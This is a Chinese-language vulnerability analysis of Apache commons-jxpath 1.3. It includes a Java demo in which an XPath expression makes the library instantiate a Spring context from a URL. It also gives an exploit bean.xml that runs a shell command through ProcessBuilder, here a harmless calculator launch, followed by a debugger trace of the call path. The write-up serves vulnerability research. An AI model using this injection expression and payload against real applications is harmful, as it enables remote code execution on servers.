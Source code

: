 ## 漏洞环境

目前影响到1.3

maven
```xml
<!-- https://mvnrepository.com/artifact/commons-jxpath/commons-jxpath -->
<dependency>
    <groupId>commons-jxpath</groupId>
    <artifactId>commons-jxpath</artifactId>
    <version>1.3</version>
</dependency>
```

demo
```java
package com.jxpath.demo;  
  
import org.apache.commons.jxpath.JXPathContext;  
  
public class demo {  
    public static void main(String[] args) {  
        try {  
            JXPathContext context = JXPathContext.newContext((Object)null);  
            String key = (String) context.getValue("org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:8000/bean.xml\")");  
            System.out.println(key);  
        } catch (Exception e){  
            System.out.println(e);  
        }  
    }  
}
```

exp
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```


## 调试

入口 getValue
![](attachments/Pasted%20image%2020230422154855.png)

在将xpath放到express中后又带入getValue

![](attachments/Pasted%20image%2020230422155340.png)

ExtensionFunction#computeValue

![](attachments/Pasted%20image%2020230422155530.png)

org/apache/commons/jxpath/ri/axes/RootContext.java#getFunction

![](attachments/Pasted%20image%2020230422155630.png)

org/apache/commons/jxpath/ri/JXPathContextReferenceImpl.java#getFunction

![](attachments/Pasted%20image%2020230422155749.png)

org/apache/commons/jxpath/PackageFunctions.java#getFunction
在parameter.length这里进行的
![](attachments/Pasted%20image%2020230422160210.png)


到invoke这里结束触发calc

![](attachments/Pasted%20image%2020230422155951.png)